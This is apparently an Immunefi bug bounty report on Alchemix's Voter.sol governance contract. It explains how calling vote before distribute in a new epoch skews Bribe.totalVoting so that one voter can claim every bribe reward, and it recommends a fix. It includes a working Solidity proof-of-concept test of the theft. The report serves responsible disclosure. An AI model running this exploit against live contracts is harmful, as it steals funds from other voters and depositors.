 
# Call the deposit function before the distribute function to steal tokens

Submitted on Tue May 07 2024 13:44:37 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30898

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
If an attacker makes a deposit before the `Voter.distribute` function is called in a new epoch, the `Bribe.totalVoting` becomes smaller than the actual sum of votes. This discrepancy provides the attacker with an opportunity to steal funds from the contract.

## Vulnerability Details
- Keeper or anyone will call `Voter.distribute` function to initialize the protocol once a new epoch
- But an attacker can call `Voter.vote` function before the `Voter.distribute` function is called
- If the `Voter.distribute` function is called after the attacker calls `Voter.vote` function, that updates `Bribe.totalVoting` to `0`
- If there is no vote anymore in this epoch, the prevSupply will be 1 when the attacker claims the reward. It means that the attacker can adjust the amount of rewards you will receive. So that the attacker can steal all assets in the Bribe contract.
- If there are other votes after calling distribute function, the attacker can get more than the expected reward.

## Impact Details
- As a result of the vote, it results in a different effect from the expected effect regardless of voting Power.
- An attacker can steal all the rewards in the Bribe contract.

## Recommendation
It is recommended to confirm that the Voter.distribute function was called when users call Voter.vote function in the new epoch, and if it is false, it is recommended to call the distribute function first.
        
## Proof of concept
## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }


    function testBugDoSDeposit() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        // go epoch 1
        uint256 period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        uint256 totalVoting0 = IBribe(bribeAddress).totalVoting();
        assertGt(totalVoting0, 0, "totalVoting0 = 0");

        voter.distribute();

        uint256 totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, 0, "totalVoting1 != 0");

        uint256 userTokenId = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, totalVoting0, "totalVoting1 != totalVoting0");


        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // go epoch 2
        period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        voter.distribute();

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```
